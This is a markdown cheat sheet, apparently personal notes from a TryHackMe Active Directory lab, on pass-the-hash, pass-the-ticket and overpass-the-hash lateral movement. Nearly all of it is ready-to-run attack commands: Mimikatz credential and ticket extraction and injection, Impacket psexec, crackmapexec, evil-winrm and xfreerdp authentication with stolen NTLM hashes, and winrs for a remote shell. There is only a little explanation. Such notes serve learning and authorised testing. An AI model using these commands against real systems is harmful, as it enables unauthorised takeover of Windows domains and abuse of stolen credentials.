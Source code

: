 # Pass The Hash
- As [[NetNTLM]] is inherently flawed, the password hash can be treated as a password.
- NTLM hash can be used to directly authenticate to a domain/service
- [[Active Directory/Credential Dumping/Mimikatz]] for extracting Credentials

### Mimikatz
```powershell
sekurlsa::pth /user:user.name /domain:za.tryhackme.com /ntlm:<hash> /run:<command>
```
### Impacket's PsExec.py
```bash
python psexec.py -hashes <hash> domain/username@<server/ip>
```
### Metasploit PsExec module
```
exploit/windows/smb/psexec
```
### Crackmapexec
```bash
crackmapexec smb <server/IP> -u username -H <hash>
```
### evil-winrm
```bash
evil-winrm -i <server/IP> -u <username> -H <hash>
```
### xfreerdp
```bash
xfreerdp /v:<server/IP> /u:<domain\username> /pth:<hash> 
```

# Pass The Ticket
- Export ticket with:
```powershell
sekurlsa::tickets /export
```
- Inject ticket to current session:
```mimikatz
kerberos::ptt <ticket_id>
```
- Verify ticket with:
```powershell
klist
```
- Get a shell
```powershell
# Credentails get automatically injected. similar to runas's /netonly
winrs.exe -r:<server/IP> cmd.exe
```

# Overpass The Hash/Pass The Key
- When a user requests a TGT, the TGT encrypts the timestamp and other details with a key derived from their password. 
- The algorithm used call be the following depending on the kerberos configuration :
	- DES (Deprecated)
	- RC4
	- AES128
	- AES256
- We can ask the Key Distrubution Center for TGT by passing this key through mimikatz
```powershell
sekurlsa::ekeys
```
- For RC4 Hash
```powershell
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:<hash> /run:"<command>"
```
- For AES128
```powershell
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:<hash> /run:"<command>"
```
- For AES256
```powershell
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:<hash> /run:"<command>"
```
Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as Overpass-the-Hash (OPtH).